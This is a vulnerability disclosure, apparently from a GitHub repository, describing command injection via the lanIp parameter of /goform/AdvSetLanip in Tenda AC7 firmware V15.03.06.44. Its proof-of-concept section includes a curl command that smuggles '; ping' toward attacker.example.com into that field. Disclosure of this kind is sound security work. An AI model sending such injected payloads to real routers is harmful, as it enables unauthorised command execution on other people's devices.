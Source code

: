 ## Summary

The Tenda AC7 firmware **V15.03.06.44** contains a command-injection risk: the `POST /goform/AdvSetLanip` handler stores the user-supplied `lanIp` directly into the device configuration key `lan.ip` via `SetValue("lan.ip", cp)`. That stored value is later returned by `GET /goform/telnet` using `GetValue("lan.ip", v3)`. Because neither `SetValue` nor `GetValue` enforce length or content constraints, an attacker-controlled `lan.ip` can carry shell metacharacters or payloads that lead to command execution when the value is used unsafely in a shell context.

## Affected product & version

- Product: Tenda AC7
- Affected firmware: **V15.03.06.44**
- Vendor download page: https://www.tenda.com.cn/product/download/AC7.html

## Vulnerability details

- **Endpoint (write):** `POST /goform/AdvSetLanip`

  - Reads POST parameter `lanIp` into a buffer (`cp`).
  - Calls `SetValue("lan.ip", cp)` to persist the value.

  ![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251005_092014.png)

- **Endpoint (read):** `GET /goform/telnet`

  - Calls `GetValue("lan.ip", v3)` to retrieve the stored `lan.ip` value for later use.

  ![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251005_092131.png)

- **Root cause:** Missing validation and sanitization in both storage and retrieval paths. Arbitrary strings can be stored under `lan.ip`; if any consumer later interpolates this value into shell commands, scripts, or system calls without proper escaping, command injection becomes possible.

## Poc

1. Send a POST to `/goform/AdvSetLanip` with a malicious `lanIp` payload (e.g., including `;` or backticks).
    Example (conceptual curl):

   ```python
   curl -s -X POST "http://<device>/goform/AdvSetLanip" \
     -d "lanIp=192.168.1.1;ping -c 3 attacker.example.com"
   ```

   (Replace with appropriate parameter encoding for the target device.)

2. Trigger or wait for code path that uses `lan.ip` in a shell context (e.g., via `GET /goform/telnet` or any maintenance script that runs the value). When that code concatenates or executes the value without escaping, the injected command runs.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251005_092243.png)

3. Successfully triggered attack

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251005_091337.png)
